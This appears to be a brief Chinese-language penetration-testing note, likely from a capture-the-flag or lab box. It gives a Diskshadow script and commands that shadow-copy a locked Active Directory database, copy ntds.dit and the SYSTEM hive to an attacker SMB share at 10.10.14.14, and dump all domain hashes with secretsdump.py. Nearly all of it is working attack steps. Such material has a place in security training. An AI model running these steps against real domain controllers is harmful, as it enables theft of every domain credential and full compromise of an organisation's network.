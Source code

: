 # 要读取的库由于正在使用而被锁住

> 本地管理员组的成员身份或同等身份是运行 Diskshadow 所需的最低要求。 以及Backup Operators 也可以

所需这个脚本**vss.dsh** 如果是在kali编辑的可以

```clike
最好执行
unix2dos vss.dsh
来更好的为windows执行
```

```clike
-----------------vss.dsh--------------------
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
---------------------------------------------

upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh

确保所在目录可读可写
3. 建立smb共享，或者你先搞到本地然后传回去也行
4. 传递
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.14\s\ntds.dit
或者直接copy
5. 拿system
reg.exe save hklm\system \\10.10.14.14\system
6. 破解
secretsdump.py -system system -ntds ntds.dit LOCAL
```

